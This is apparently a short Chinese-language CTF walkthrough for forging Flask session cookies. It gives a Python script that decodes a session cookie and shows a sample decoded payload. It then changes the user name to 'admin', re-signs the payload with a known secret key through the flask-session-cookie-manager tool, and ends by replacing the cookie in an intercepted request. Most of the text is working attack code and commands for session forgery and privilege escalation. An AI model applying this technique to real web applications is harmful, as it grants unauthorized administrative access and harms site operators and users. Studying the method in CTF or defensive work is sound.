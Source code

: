 <https://www.cnblogs.com/chrysanthemum/p/11722351.html>
<https://www.cnblogs.com/murkuo/p/15174413.html>
先获取session的解密原session。
python ctf/flask_decode.py   .eJw9kE-xxx
```
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```
修改里面的载体，如user改admin。
```
{'_fresh': True, '_id': b'5016bfd6a1eef38b37a3b1c03b7f1e74732a70b3abc44761d5d15d0f6574dc821644
655dce770b636ffcc53630c04aa2e6daab6dc4db050ec87d4c17ce98312e', 'csrf_token': b'adc491f7ab2338c
3c8ab97ac918bb6149a539c74', 'image': b'8P3o', 'name': 'admin', 'user_id': '10'}
```

再加密：
使用密钥+载体字符生成新session脚本：
<https://github.com/noraj/flask-session-cookie-manager>

```
python flask_session_cookie_manager3.py encode -s '密钥' -t '载体'

python flask_session_cookie_manager3.py encode -s "ckj123" -t  "{'_fresh': True, '_id': b'5016bfd6a1eef38b37a3b1c03b7f1e74732a70b3abc44761d5d15d0f6574dc821644
655dce770b636ffcc53630c04aa2e6daab6dc4db050ec87d4c17ce98312e', 'csrf_token': b'adc491f7ab2338c
3c8ab97ac918bb6149a539c74', 'image': b'8P3o', 'name': 'admin', 'user_id': '10'}"
```


最后抓包替换即可。